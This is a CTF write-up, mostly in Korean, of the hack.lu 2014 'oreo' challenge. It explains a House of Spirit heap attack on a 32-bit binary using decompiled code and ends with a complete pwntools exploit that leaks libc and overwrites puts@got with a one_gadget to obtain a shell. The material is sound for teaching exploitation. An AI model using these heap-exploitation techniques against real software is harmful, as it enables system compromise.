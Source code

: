```yaml
---
title: hack.lu 2014 - oreo
date: 2018-09-18 14:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- House Of Spirit
---
```

```
Welcome to the OREO Original Rifle Ecommerce Online System!
     ,______________________________________
    |_________________,----------._ [____]  -,__  __....-----=====
                   (_(||||||||||||)___________/                   |
                      `----------'   OREO [ ))"-,                   |
                                           ""    `,  _,--....___    |
                                                   `/           """"	
What would you like to do?
```



## Binary Information

```
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
```

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



## House of Spirit

:: free 해줄 때 넣어주는 인자 값을 fake_chunk 주소로 변경해 fake_chunk 메모리에 malloc이 되도록 한다.



```c
unsigned int Message_order()
{
  unsigned int canary; // ST1C_4

  canary = __readgsdword(0x14u);
  printf("Enter any notice you'd like to submit with your order: ");
  fgets(order_message, 128, stdin);
  Make_null(order_message);
  return __readgsdword(0x14u) ^ canary;
}
```

```
.bss:0804A2A8 order_message   dd ?                    ; DATA XREF: Message_order+23↑r
.bss:0804A2A8                                         ; Message_order+3C↑r ...
.bss:0804A2AC                 align 20h
.bss:0804A2C0 order_addr      db    ? ;               ; DATA XREF: main+29↑o
.bss:0804A2C1                 db    ? ;
.bss:0804A2C2                 db    ? ;
```

bss 영역을 보면 message를 출력할 때, order_message 변수에 message가 저장되어 있는 order_addr 주소를 넣고  영역을 포인터로 전달한다.



rifle 구조체

```
00000000 rifle           struc ; (sizeof=0x38, align=0x4, copyof_5)
00000000 description     db 25 dup(?)
00000019 name            db 26 dup(?)
00000033                 db ? ; undefined
00000034 addr            dd ?                    ; offset
00000038 rifle           ends
```

```c
unsigned int Show_rifles()
{
  rifle *i; // [esp+14h] [ebp-14h]
  unsigned int canary; // [esp+1Ch] [ebp-Ch]

  canary = __readgsdword(0x14u);
  printf("Rifle to be ordered:\n%s\n", "===================================");
  for ( i = malloc_addr; i; i = (rifle *)i->addr )
  {
    printf("Name: %s\n", i->name);
    printf("Description: %s\n", i);
    puts("===================================");
  }
  return __readgsdword(0x14u) ^ canary;
}
```

rifle을 보여주는 메뉴인데, rifle 구조체의 addr 변수 부분을 이용해 null 일 때 까지 출력을 합니다. 이를 이용해 우리가 원하는 addr에 fake_chunk addr을 넣어주고 이 부분이 free 가 되게 한다. fake_chunk에서 malloc size도 맞춰주어야 하므로 rifle count 가 0x41 or 0x40이 되게 한다. 이 malloc 부분이 order_message 변수 부분을 포함하게 된다.

order_message 변수에 puts@got 를 넣고 이 주소에 one_gadget을 넣으면 쉘을 획득할 수 있다.



```python
from pwn import *
 
p = process("./oreo")
#context.log_level = 'debug'
 
def add(name, desc):
    p.sendline('1')
    p.sendline(name)
    p.sendline(desc)
 
def order():
    p.sendline('3')
 
def message(msg):
    p.sendline('4')
    p.sendline(msg)
 
def status():
    p.sendline('5')
    p.recvuntil('Message: ')
    leak = p.recvuntil('=')
    return leak[0:4]
 
fake = 0x804a2a0
puts = 0x804a248 
 
for i in range(0,0x40-1):
    add(str(i),str(i))
 
message(p32(0x00)*9+p32(0x40))
 
add("x"*27+p32(fake+0x8),'xx')
 
order()
 
add("aa" ,p32(puts))
 
leak = status()
offset = 0x5fca0
libc = u32(leak) - offset
log.info("Libc_base :::"+hex(libc))
 
one_gadget = 0x5fbc5
message(p32(libc+one_gadget))
 
p.interactive()
 
```


